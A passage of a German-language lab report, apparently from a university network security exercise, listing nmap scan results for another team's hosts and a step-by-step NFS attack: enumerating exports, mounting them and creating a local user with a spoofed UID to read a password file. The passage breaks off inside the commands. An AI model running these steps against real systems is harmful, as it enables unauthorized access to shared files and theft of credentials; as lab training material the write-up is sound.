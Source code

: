     - fehlende Portfreigaben oder maßnahmen gegen nmap

- team 10:

    ```bash
    IP Address      Hostname                                 Open Ports (with Service)                                             
    ---------------------------------------------------------------------------------------------------------------
    192.168.10.1    ()                                       22/open/tcp/ssh 53/open/tcp/domain 8123/open/tcp/polipo 
    192.168.10.2    (firewall-yd.extern.netz.lrz.de)         22/open/tcp/ssh 8123/open/tcp/polipo 
    192.168.10.3    ()                                       22/open/tcp/ssh 80/open/tcp/http 443/open/tcp/https 8123/open/tcp/polipo 
    192.168.10.4    ()                                       22/open/tcp/ssh 8123/open/tcp/polipo 
    192.168.10.5    ()                                       22/open/tcp/ssh 8123/open/tcp/polipo 
    192.168.10.6    (vl-3513.csr1-kw5.lrz.de)                8123/open/tcp/polipo                                
    192.168.10.7    ()                                       22/open/tcp/ssh 8123/open/tcp/polipo 
    192.168.10.8    ()                                       22/open/tcp/ssh 139/open/tcp/netbios-ssn 445/open/tcp/microsoft-ds 2049/open/tcp/nfs 8123/open/tcp/polipo 
    192.168.10.9    (bro01-ku1.netz.lrz.de)                  22/open/tcp/ssh 636/open/tcp/ldapssl 8123/open/tcp/polipo 
    192.168.10.10   (tu-217.bro01-0gz.lrz.de)                22/open/tcp/ssh 25/open/tcp/smtp 110/open/tcp/pop3 143/open/tcp/imap 443/open/tcp/https 465/open/tcp/smtps 587/open/tcp/submission 993/open/tcp/imaps 995/open/tcp/pop3s 8123/open/tcp/polipo 
    192.168.10.11   ()                                       22/open/tcp/ssh 3000/open/tcp/ppp 8123/open/tcp/polipo 
    192.168.10.80   ()                                       22/open/tcp/ssh 80/open/tcp/http 443/open/tcp/https 8123/open/tcp/polipo 
    ```

    - fileserver auf 192.168.10.8 mit /16
    - unverschlüsselte protokolle SMTP (Port 25), POP3 (Port 110), IMAP (Port 143)
    - verschlüsselte protokolle IMAPS (Port 993), POP3S (Port 995)

**Wirksamkeit:**
Das tool ist durachaus nützlich alle hosts und deren Angriffspunkte zu finden und war in unseren Fall besonders hilfreich zur identifizierung der fileservers.

#### 1.3 nfs exploit

Ein großes Problem bei NFS ist, dass es standardmäßig keine Authentifizierung oder Verschlüsselung bietet. Das bedeutet, dass jeder, der Zugriff auf das Netzwerk hat, auf die freigegebenen Dateien zugreifen kann.

**Alle VMs:**
Wir haben im folgenden beispielsweise bei Team 05 deren NFS shares aufgedeckt und dort unter flaschen Nutzerdaten auf die Dateien zugegriffen die wir nicht hätten sehen sollen:

- aufzählung aller NFS-Exporte auf einem Server
    `nmap -p 111 --script nfs-ls.nse 192.168.5.7`
- (aufzählung aller shares)
    `showmount -e 192.168.5.7`
- mounting eines der gelisteten NFS-Exports hier beispielhaft `/export/atten`

    ```bash
    mkdir -p /mnt/nfs
    mount -t nfs 192.168.5.7:/export /mnt/nfs -o nolock
    ls -la /mnt/nfs
    # -> überprüfe welche UUID auf /export/atten zugriff hat
    useradd -m -u 10021 -G students newuser
    passwd newuser
    umount /mnt/nfs
    mount -t nfs 192.168.5.7:/export/atten /mnt/nfs -o nolock
    su - newuser
    cd /mnt/nfs
    cat atten.password